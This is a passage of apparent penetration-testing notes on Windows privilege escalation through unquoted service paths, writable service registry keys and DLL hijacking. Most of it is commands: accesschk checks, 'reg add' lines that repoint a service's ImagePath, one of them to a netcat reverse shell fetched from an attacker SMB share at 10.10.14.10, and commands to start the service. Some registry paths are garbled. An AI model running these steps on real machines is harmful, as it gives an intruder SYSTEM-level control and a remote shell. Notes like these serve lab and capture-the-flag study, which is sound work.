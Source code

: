 	E.g:

	- Unquoted path: C:\Program Files\Unquoted Path Services\Common\etc....
	- Windows will check for Program.exe then, Unquoted.exe then Common.exe etc...
	- Which means that if we can wirte somewhere in that path, we can put a reverse shell to exploit the path.
	- For example, we can put a reverse shell, named common.exe inside of the "unquoted path service" folder.

- Modify registry entry

	- Check if we can modify a key registry (we need to be able to start/stop the service)

			.\accesschk.exe /accepteula -uwkqv HKLM\System\CurrentControlSet\Servicesegsvc

	- Check if we can start/stop the service

			.\accesschk.exe /accepteula -uwcqv user regsvc

	- Check the service inside the registry

			reg query HKLM\System\CurrentControlSet\Servicesegsvc

	- Modify the registry by changing the bin path  of the service

			reg add HKLM\System\CurrentControlSet\Servicesegsvc /v ImagePath /t REG_EXPAND_SZ /d C:\MyTerrible\Exploit.exe /f

			reg add "HKLM\System\CurrentControlSet\services\wuauserv" /v ImagePath /t REG_EXPAND_SZ /d "\\10.10.14.10\ghost\netc.exe -e powershell.exe 10.10.14.10 4444" /f

	- Start the service

			net start regsvc

			OR

			start-service regsvc

### DLL Hijacking  
https://pentestlab.blog/2017/03/27/dll-hijacking/

- Identify DLL Hijacking
	- Check in WinPeas output for `Non Windows services`
	- Check the bin path of the service

			sc.exe qc <service name>

- Analyse the .exe of the service directly on the target machine with Procmon64.

	- Open procmon64 (with admin rights)
	- Stop and clear the filter
	- CTRL+L to open the filter config
	- From the drop down list, select "Process Name" and then type the name of the service
